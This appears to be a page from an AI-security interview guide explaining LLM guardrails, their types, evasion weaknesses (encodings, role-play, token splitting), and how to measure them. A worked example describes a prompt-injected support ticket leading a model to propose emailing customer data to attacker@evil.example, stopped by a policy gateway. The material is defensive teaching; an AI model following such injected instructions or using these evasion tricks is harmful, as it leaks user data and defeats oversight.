

# 19. What are guardrails, what do they do well and where do they fail?

> **Added question.** The source questions refer to guardrails in passing (Q2). This page treats them directly because interviewers often probe the claim that "we use a guardrail". See [ATTRIBUTION.md](../ATTRIBUTION.md).

## 1. The answer in one minute

Guardrails are checks placed around a model: classifiers or rules on inputs and outputs that block or modify content, such as prompt-attack detectors, topic and toxicity filters, personal-data redactors, and grounding checks. They are valuable, because they raise the cost of attacks, catch common mistakes and give you telemetry. But they are probabilistic filters, they can be evaded, and they typically see the same text an attacker controls. So I use them as one layer, behind deterministic controls: authorisation, least privilege, validated tool arguments and egress limits. I measure them (precision, recall and latency) like any detector and never claim that a guardrail makes an agent safe.

## 2. What the common types do

| Type | Examples of products or approaches | Good at | Weak at |
| --- | --- | --- | --- |
| Prompt-attack detection | Classifiers trained on known jailbreak and injection patterns; managed filters from cloud providers | Known, obvious patterns; volume reduction | Novel, obfuscated or multi-step attacks |
| Content-safety filters | Toxicity, self-harm, hate, sexual content, violence categories | Policy compliance for harmful content | Business-specific rules; context-dependent cases |
| Topic and scope control | Allow and deny topics, conversation rails | Keeping a bot on task | Adversarial rephrasing |
| Sensitive-data filters | PII and secret detectors, redaction | Common formats such as emails and card numbers | Unstructured or context-dependent data |
| Grounding and hallucination checks | Verify claims against retrieved sources | Detecting unsupported statements | Subtle errors; adds latency |
| Output schema and rule validators | JSON schema, regex, allow-lists | Deterministic format and value rules | Semantics |
| Policy-as-code on tool calls | OPA, Cedar, custom gateways | Deterministic, auditable authorisation | Does not judge content meaning |

The last two rows are not probabilistic. They are the ones you can *guarantee*.

## 3. Where guardrails sit



Notice that the policy gateway has the last word on actions. A guardrail may stop an attack before it gets there; if it does not, the gateway still can.

## 4. Why a guardrail alone is not a defence

1. **Same channel, same adversary.** An attacker writes the text that the guardrail classifies. They can test variants until one passes.
2. **Probabilistic.** Every classifier has false negatives. At scale, a small miss rate means regular misses.
3. **Context blindness.** A filter judging one message may miss an attack spread across several turns or documents.
4. **The guardrail itself can be targeted.** If a language model does the classifying, it can be injected or confused.
5. **Evasion techniques.** Encodings, translation, role-play framing, typos, token splitting and instructions in images or other modalities.
6. **False positives.** Over-blocking harms users and teams then loosen the settings.
7. **Cost and latency.** Each filter adds time and spend.

## 5. Evaluating a guardrail like a detector

Measure with labelled data: a set of attack prompts and a set of benign prompts that resemble real traffic.

| Metric | Meaning | Why it matters |
| --- | --- | --- |
| Recall (detection rate) | Share of attacks blocked | What gets through |
| False positive rate | Share of benign requests blocked | User impact |
| Precision | Of the blocked, share that were attacks | Alert quality |
| Latency, cost | Added time and spend per request | Product viability |
| Robustness | Performance on rephrased, encoded and multi-turn variants | Evasion resistance |

```python
def evaluate(guardrail, attacks: list[str], benign: list[str]) -> dict:
    tp = sum(guardrail(a).blocked for a in attacks)
    fn = len(attacks) - tp
    fp = sum(guardrail(b).blocked for b in benign)
    tn = len(benign) - fp
    return {
        "recall": tp / len(attacks),
        "false_positive_rate": fp / len(benign),
        "precision": tp / (tp + fp) if (tp + fp) else None,
    }
```

Repeat the evaluation when the guardrail, model or prompt changes, and keep a held-out attack set that the vendor and your developers have not tuned against ([Q6](06-ai-red-teaming.md), [Q9](09-ai-security-cicd.md)).

## 6. Worked example: guardrails plus a deterministic backstop

A support agent reads a ticket containing an obfuscated instruction that evades the input classifier.

1. The input guardrail misses it (a false negative).
2. The model proposes `send_email(to=attacker@evil.example, body=<customer data>)`.
3. The output guardrail does not flag the body as sensitive because it is an unusual format.
4. The policy gateway rejects the call: the recipient domain is not on the allow-list.
5. The blocked call is logged, an alert fires, and the ticket source is investigated.

Two probabilistic layers failed. The deterministic one held. That outcome, not the filters' scores, is what to demonstrate.

## 7. Follow-up questions, with answers

**Would you use a guardrail product at all?**
Yes, for the reasons in section 1: cheap risk reduction, policy enforcement for content categories and valuable telemetry. I would choose based on measured recall and false-positive rate on my own traffic, check what data it sends where, and design the system so that its failure is survivable.

**What is the difference between a guardrail and a security control?**
A security control provides a guarantee you can test: for example, "this tool cannot be called by this identity". A guardrail provides a statistical reduction in the chance of bad input or output. Use guardrails to reduce the load on controls, and controls to bound the damage when guardrails fail.

**How would you decide between a managed guardrail service and building your own?**
Managed services are faster to adopt and maintained against new attack patterns, but you depend on the vendor's coverage and data handling, and customisation can be limited. Building gives control and tuning for domain-specific rules but costs maintenance. Many teams combine managed filters for generic categories with their own deterministic rules for business logic.

**Can a guardrail model be attacked itself?** *(added)*
Yes. A classifier built on a language model reads attacker-controlled text and can be manipulated or confused, and adversarial examples against classifiers are well studied. Defence in depth, diversity of detectors and deterministic backstops reduce reliance on any one.

**What about guardrails for agents' tool use?** *(added)*
The effective ones are policy engines that check tool, arguments, identity and context deterministically, optionally supplemented by classifiers that flag suspicious sequences. See [Q4](04-agent-tool-access.md).

## 8. Common mistakes

1. Describing a guardrail as "the fix" for prompt injection.
2. Never measuring recall or false positives on real traffic.
3. Tuning the guardrail against the same attack set used to demonstrate it.
4. Skipping the deterministic checks because "the filter already covers it".

## 9. What to demonstrate

An evaluation of a guardrail on a labelled set with recall, false-positive rate and latency, a bypass that evades it and the deterministic control that stops the same attack anyway.
